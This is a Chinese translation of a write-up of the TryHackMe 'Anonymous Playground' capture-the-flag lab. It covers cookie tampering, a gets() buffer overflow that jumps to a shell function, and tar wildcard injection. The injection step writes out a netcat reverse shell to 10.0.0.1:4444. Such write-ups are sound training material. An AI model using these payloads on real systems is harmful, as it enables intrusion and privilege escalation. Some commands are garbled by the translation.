# TryHackMe:匿名游乐场 CTF 报道

> 原文：<https://infosecwriteups.com/tryhackme-anonymous-playground-ctf-writeup-5d7b28153d1f?source=collection_archive---------0----------------------->

在这篇文章中，我将展示我完成**匿名游乐场**捕捉旗帜(CTF)的方法，这是一个由*匿名创建的 TryHackMe 平台上的免费房间。*我在下面的参考资料中提供了 TryHackMe 平台的链接，供有兴趣试用这款 CTF 的人参考。


# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读这篇文章之前尝试一下这个房间，因为在这篇文章中显然会有**剧透****。我相信，如果你先自己尝试一下，然后在遇到困难或需要提示时再来写这篇文章，你会更喜欢 CTF。因此，没有任何进一步的拖延，让我们开始吧！**

# **CTF 背景——加入匿名**

**CTF 作者提供了以下背景:**

> **所以，你已经决定和匿名者签约了？嗯，没那么容易。他们为你建造了一个脆弱的 CTF 机器，让你侵入并证明你有资格成为“匿名者”的一员。你能做到吗？你有这种能力吗？**
> 
> **这台机器上有 **3 个标志**。**两个**将成为**用户**，另一个用户将成为**超级用户**。**

# **列举**

**首先，我使用 NMAP 工具扫描目标机器，查找任何开放的端口和运行在这些端口上的服务。**

****

**NMAP 命令可以细分如下:**

*   ****-Pn** :禁用主机发现。**
*   ****-sV** :对服务进行版本检测。**
*   ****-sC** :使用 NMAP 提供的默认脚本执行脚本扫描。**
*   ****-v** :提供关于 NMAP 扫描的详细信息。**
*   ****-oN** :将扫描结果输出到文件。**

**扫描发现了两个开放的端口，端口 80 和端口 22。我决定检查托管在 80 端口的网站。我找到了一个**首页**和一个叫**老江湖**的页面。查看**操作人员页面**，我可以看到一个似乎是用户名的列表。**

****

**我还在主页和操作页面的页面源代码中发现了一条注释，其中包含了另一个名为**upcoming.php 的页面的名称。****

****

**然而，当我试图访问此页面时，我收到了一个**未找到错误**。NMAP 扫描还在 **robots.txt** 文件中发现了一个条目。**

****

**当试图访问这个条目时，我看到一个新页面，通知我没有被授予访问权限。**

****

**使用 chrome 中的开发者工具，我能够找到一个名为**访问**的 **cookie** ，它的值被设置为**拒绝**。**

****

**我将这个值改为 **granted** ，然后重新加载页面。这很有效，我在网页上看到了一条新消息。**

****

# **破译密码**

**页面上似乎有某种编码的消息，看起来像可能的凭证(即**用户名::密码**)。在花了一些时间试图破译信息后，我决定看看 CTF 作者提供的提示，可以在下面看到。**

> ****提示**:你会想要为此写一个 Python 脚本。zA = ' a '**

**根据提示，“zA”等于“a”。经过一番挠头之后，我意识到，如果你将字母改变到它们在**字母表**中的**有序数字位置**，并将它们加在一起，那么你将得到一个新值，它将代表字母表中另一个字母的有序数字位置。下面的例子说明了这一点。**

```
**#** **EXAMPLE 1**
'z' = 26 # 26th letter in the alphabet
'A' = 1 # 1st letter in the alphabet(26 + 1) % 26 = 1 = 'a'**# EXAMPLE 2**
'h' = 8
'E' = 5(8 + 5) % 26 = 13 = 'm'N.B. Mod (i.e. '**%**') 26 is used since there are only 26 letters in the alphabet.
```

**手动执行这些计算是可能的，但是我决定在一些在线资源的帮助下编写一个简单的 python 脚本来完成它。**

****

**运行这个脚本给我一个用户名和密码。如果我查看之前在检查网站时看到的**操作人员**的列表，我也可以看到用户名出现在列表中。**

****

**使用这些凭证，我可以 SSH 到目标机器并检索第一个用户标志。**

****

# **用户权限提升**

**我在 magna 用户的主目录中找到了一个名为“ **hacktheworld** ”的二进制可执行文件和一个名为“**note _ from _ ghost . txt**”的文本文件。该文本文件包含下图所示的消息。**

****

**我决定使用 **scp** 将文件复制到我的本地机器上，以便进一步分析。**

```
scp magna@10.10.77.16:/home/magna/hacktheworld . 
```

**使用 **Ghidra** ，我通过查看它的**主**函数开始检查二进制文件。该代码创建一个 64 字节大小的 char 缓冲区。然后，程序使用函数“ **gets()** ”接受我的输入。这个易受攻击的 C 函数可被利用来导致**缓冲区溢出**。**

****

**我发现第二个函数叫做“ **call_bash** ”，在 **main** 函数中没有引用。该函数在使用函数“ **setuid()** ”设置调用进程的有效用户 id 之前打印几条消息。然后在设置的用户 ID 下创建一个新的 shell。**

****

**我可以利用易受攻击的 C 函数" **gets()** "造成**缓冲区溢出**，并用" **call_bash** "函数的地址覆盖堆栈上的返回地址。为了找到缓冲区的大小以及需要多少个“A”来覆盖它，我使用 python 来提供输入，并确定导致程序崩溃的“A”的确切数量。这涉及到一些尝试和错误。**

****

**我发现提供 **72 "A"** 会导致**分段错误**的发生，任何不足都不会导致程序崩溃。接下来，我用“ **readelf** ”和“ **grep** ”找到了“ **call_bash** ”函数的内存地址。**

```
readelf -s hacktheworld | grep -i "call_bash"
```

**这为函数" **call_bash** "提供了如下地址。**

****

**我现在可以将这个内存地址以十六进制格式**附加到我的**72“A”**的末尾，同时仍然保持写在内存中的函数的**字符顺序**。****

```
python -c 'print "A"*72 + \x58\x06\x40\x00\x00\x00\x00\x00"' | ./hacketheworld
```

**这成功地调用了函数，但是我没有得到预期的升级的 shell。相反，我得到一个分段错误。**

****

**在花了一些时间试图找出为什么我不能让漏洞工作之后，我看到了 LiveOverflow 提供的解释。当我利用程序创建一个 shell 时，shell 被执行，但是没有任何输入，所以 shell 最终只是退出。为了解决这个问题，我可以将我的漏洞利用与命令 **cat** 结合起来，如下所示。**

```
(python -c 'print "A"*72 + \x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacketheworld
```

**这很有效，我已经成功地将我的权限升级到了用户**幽灵**。**

****

**我使用 python 来导入 **pty** 模块，并创建一个完全交互式的 TTY 外壳，如下所示。**

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

**在这之后，我导航到用户 ghost 的主目录并获得第二个用户标志。**

# ****根权限提升****

**现在我已经有了两个用户标志，我开始寻找任何方法将我的权限提升到 root。在寻找特权提升漏洞时，我决定检查是否有任何有趣的 **cronjobs** 正在运行。**

****

**我看到一个有趣的 **cronjob** 正在由用户 **root** 运行。这个 cronjob 执行一系列命令，将用户 ghost 的主目录中的所有文件归档到一个 **tar** 文件中。在搜索了使用 tar 文件提升权限的方法之后，我看到了一篇名为“*利用通配符提升权限*”的文章。在本文中，我发现了如何通过输入以下命令使用 **Tar 通配符注入**来提升我的权限。**

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f" > shell.shecho "" > "--checkpoint-action=exec=sh shell.sh"echo "" > --checkpoint=1
```

**这些命令的工作方式如下:**

*   **创建一个反向 shell，并将其存储在一个名为 **shell.sh** 的文件中。**
*   ****–检查点[=数字]** 显示每个数字记录的进度消息(默认为 10)。**
*   ****–check point-ACTION = ACTION**对每个检查点执行操作。在第一个文件归档后运行文件 shell.sh。由于 crontab 的原因，tar 命令以 root 用户身份运行，这会产生一个 netcat shell，并将其发送到端口 4444 上的攻击平台。**

**接下来，我在我的主机设备上为端口 4444 上的任何传入连接设置一个 netcat 监听器。**

```
nc -lvnp 4444
```

**几分钟后，我得到一个具有 root 权限的反向 shell。然后，我可以切换到根目录，并获得最终的根用户标志😄！**

****

# **结束语**

**这是 TryHackMe 平台上提供的一个有趣且具有挑战性的 CTF。我在 TryHackMe 平台上玩得很开心，这是一个学习新技能和玩 CTF 游戏的好地方。感谢阅读到最后，继续黑客！**

# **参考**

*   **[https://www.youtube.com/watch?v=HSlhY4Uy8SA](https://www.youtube.com/watch?v=HSlhY4Uy8SA)**
*   **[https://www . hacking articles . in/exploining-wild card-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)**
*   **[http://pentest monkey . net/cheat-sheet/shell/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**